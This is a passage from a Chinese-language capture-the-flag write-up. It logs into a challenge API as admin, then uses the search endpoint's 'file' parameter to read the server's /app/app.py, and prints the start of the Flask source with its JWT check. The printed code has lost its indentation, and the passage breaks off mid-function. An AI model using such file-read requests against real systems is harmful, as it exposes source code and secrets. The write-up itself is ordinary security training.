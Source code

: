 - 登录用户,用`POST`给`http://node6.anna.nssctf.cn:20155/api-base/v0/login`发送json数据,然后发现返回了一个token。

```json
{
  "username": "admin",
  "password": "123"
}
```

![alt text](images/image-3.png)

- 查询信息,用`GET`给`http://node6.anna.nssctf.cn:20155/api-base/v0/search?file=flag.txt`发送请求,发现无这个文件，因此我们尝试查看源代码。用`GET`给`http://node6.anna.nssctf.cn:20155/api-base/v0/search?file=/app/app.py`发送请求,发现源代码。

```python
# coding=gbk
import json
from flask import Flask, request, jsonify, send_file, render_template_string
import jwt
import requests
from functools import wraps
from datetime import datetime
import os

app = Flask(__name__)
app.config['TEMPLATES_RELOAD'] = True
app.config['SECRET_KEY'] = os.environ.get('SECRET_KEY')
current_time = datetime.now().strftime('%Y-%m-%d %H:%M:%S')

response0 = {'code': 0, 'message': 'failed', 'result': None}
response1 = {'code': 1, 'message': 'success', 'result': current_time}
response2 = {'code': 2, 'message': 'Invalid request parameters', 'result': None}

def auth(func):
@wraps(func)
def decorated(*args, **kwargs):
token = request.cookies.get('token')
if not token:
return 'Invalid token', 401
try:
payload = jwt.decode(token, app.config['SECRET_KEY'], algorithms=['HS256'])
if payload['username'] == User.username and payload['password'] == User.password:
return func(*args, **kwargs)
```